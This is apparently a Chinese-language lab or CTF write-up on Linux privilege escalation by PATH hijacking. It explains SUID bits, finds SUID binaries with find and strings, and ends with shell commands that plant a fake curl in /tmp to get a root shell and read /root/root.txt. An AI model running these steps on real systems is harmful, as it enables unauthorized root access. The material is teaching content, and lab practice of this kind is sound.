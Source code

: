 ![image-20221013001726378](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013001726378.png)

答题卡

![image-20221012233110973](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012233110973.png)

![image-20221012233119156](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012233119156.png)

![image-20221013001815532](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013001815532.png)

## 通过PATH变量提权

我们先了解SUID、SGID和SBIT(Sticky Bits)，这三个概念 我们在提权基础篇有详细讲解：

![image-20221013002023246](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013002023246.png)

```
权限                        在文件上                                            在目录上
SUID Bit             用户使用文件所有者的权限执行文件	                              -
SGID Bit             用户在组所有者的权限下执行该文件                          在目录中创建的文件获取相同的组所有者。
Sticky Bit           无意义                                                阻止用户删除其他用户目录下的文件
```

SUID位是很不安全的，一些二进制文件确实需要提高权限来运行才被赋予SUID位(如/usr/bin/passwd，因为你需要使用它以便在系统上重置个人密码)，但是其他具有 SUID 位的自定义文件可能会导致各种各样的问题。

要在目标机系统中搜索SUID/SGID类型的文件，请在目标机上运行以下命令：

```shell
find / -perm -u=s -type f 2>/dev/null
```

![image-20221013003740031](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013003740031.png)

找出看起来很不寻常的文件/usr/bin/menu ，并尝试执行它：

![image-20221013004132576](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013004132576.png)

strings 是 Linux 上的一个命令，它能在二进制文件上查找人类可读的字符串，我们使用以下命令来查看/usr/bin/menu运行时的信息：

```shell
strings /usr/bin/menu 
```

![image-20221013005751357](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013005751357.png)

观察上图可以得知：当我们执行/usr/bin/menu 时，选择选项二其实是在执行一个curl命令，选择选项二其实是在执行uname -r命令。

这表明二进制文件curl和uname，是在没有完整路径的情况下运行的(例如没有使用/usr/bin/curl 或/usr/bin/uname运行文件)。

我们已经知道/usr/bin/menu文件是一个SUID文件，它在执行时会暂时具有root 用户权限，我们可以尝试自定义创建一个curl文件（并写入/bin/bash，意思是打开一个bash shell），然后我们再给自定义的curl文件附加可执行权限（+x），接着将自定义的curl文件所在的路径添加到PATH变量中（这样能够保证我们自定义的curl文件能够被首先找到）。

完成以上操作之后，执行SUID文件/usr/bin/menu，产生的效果是：以root权限打开一个bash shell------获得root shell

```shell
cd /tmp
echo /bin/bash > curl 
chmod +x curl
export PATH=/tmp:$PATH   #新添加的路径/tmp会在PATH变量的最前面，这样就能用我们伪造的curl文件代替真实的curl文件，保证自定义的curl文件被成功执行
/usr/bin/menu            #在跳出选项时，我们选择选项一，这样就能调用到伪造的curl文件
ls /root/
cat /root/root.txt 
```
